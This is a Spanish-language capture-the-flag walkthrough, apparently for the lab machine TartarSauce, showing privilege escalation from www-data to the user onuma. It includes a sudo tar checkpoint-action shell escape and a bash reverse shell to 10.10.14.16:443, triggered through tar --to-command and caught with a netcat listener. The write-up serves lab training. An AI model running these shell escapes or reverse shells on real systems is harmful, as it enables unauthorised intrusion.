 Ya ingresamos a la máquina como el usuario *www-data*. Para trabajar más cómodos, hacemos un [Tratamiento de la tty](/posts/tratamiento-tty). Ahora enumeramos un poco el sistema para ver como podríamos escalar privilegios.

```bash
www-data@TartarSauce:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@TartarSauce:/$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
www-data@TartarSauce:/$ 
```

Vemos que podemos ejecutar el binario `/bin/tar` como el usuario **onuma**; así que vamos a nuestro sitio de confianza [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) para ver como podemos convertirnos en el usuario **onuma**:

```bash
www-data@TartarSauce:/home$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
$ whoami
onuma
$
```

Ya somos el usuario **onuma**. Otra forma que tenemos aprovechando el privilegio para el binario `/bin/tar` seria creandonos un archivo `sh` en una carpeta donde tengamos privilegios de escritura `/tmp`.

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.16/443 0>&1
```

Ahora comprimimos el archivo con `tar`:

```bash
www-data@TartarSauce:/tmp$ tar -cvf reverse.tar reverse.sh 
reverse.sh
www-data@TartarSauce:/tmp$
```

Nos ponemos en escucha a través del puerto 443 en nuestra máquina de atacante y descomprimimos el archivo `reverse.tar` con la opción `--to-command`:

```bash
www-data@TartarSauce:/tmp$ sudo -u onuma tar -xvf reverse.tar --to-command /bin/bash
reverse.sh
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.88] 34234
onuma@TartarSauce:/tmp$ whoami
whoami
onuma
onuma@TartarSauce:/tmp$
```
